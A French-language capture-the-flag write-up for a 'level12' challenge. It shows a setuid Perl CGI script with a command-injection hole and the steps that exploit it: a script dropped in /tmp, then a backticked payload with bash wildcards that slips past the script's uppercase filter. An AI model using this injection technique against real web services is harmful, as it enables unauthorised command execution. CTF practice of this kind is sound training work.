 ﻿```bash
$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

Le retour du perl, avec le s-bit :)

```bash
$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

le retour du script executable via serveur http sur le port 4646.

```bash
$ curl -i "localhost:4646?x=foo&y=bar"
HTTP/1.1 200 OK
Date: Fri, 13 Sep 2024 20:28:24 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1
Content-Type: text/html

.
```

Bon, le parametre x est mis en majuscules, et ensuite tout ce qui vient apres un whitespace est delete.  
Cela restreint un petit peu les possibilites mais il y a toujours une solution.  
On peut creer un script qui lance getflag et qui met l'output dans un fichier, et le lancer via la faille.  
Pour countourner le probleme des majuscules, on peut utiliser les wildcards de bash.

```bash
$ echo "getflag > /tmp/magic" > /tmp/MAGIC
$ chmod a+x /tmp/MAGIC
$ curl -i 'localhost:4646?x=`/???/MAGIC`'
HTTP/1.1 200 OK
Date: Fri, 13 Sep 2024 20:55:52 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html

..
$ cat /tmp/magic
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

Le flag est a nous :P